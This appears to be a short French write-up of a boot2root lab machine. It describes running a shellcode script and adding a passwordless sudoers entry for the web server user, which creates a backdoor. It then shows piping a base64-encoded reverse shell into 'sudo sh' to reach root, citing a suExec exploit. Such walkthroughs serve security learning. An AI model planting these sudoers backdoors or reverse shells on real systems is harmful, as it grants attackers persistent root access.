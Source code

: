 # Boot2Root - Backdoor

On recommence à partir de l'étape `Step 8 - Piscine a débordement`

## Step 8 - sudoers

On lance le shellcode trouvable dans `scripts/shellcode.py`
Ce qui nous donne les droits suffisants de lancer ces deux commandes:
```
echo "www-data ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers.d/afile
chmod 0440 /etc/sudoers.d/afile
```

Maintenant, le user du webserver est un sudoer, ce qui crée une backdoor considérable.
Il suffit alors de lancer un reverse shell avec sudo

```
printf "<reverse shell en base64>" | base64 -d | sudo sh
```

Et hop root !

## Sources
Exploit suExec: https://www.exploit-db.com/exploits/27397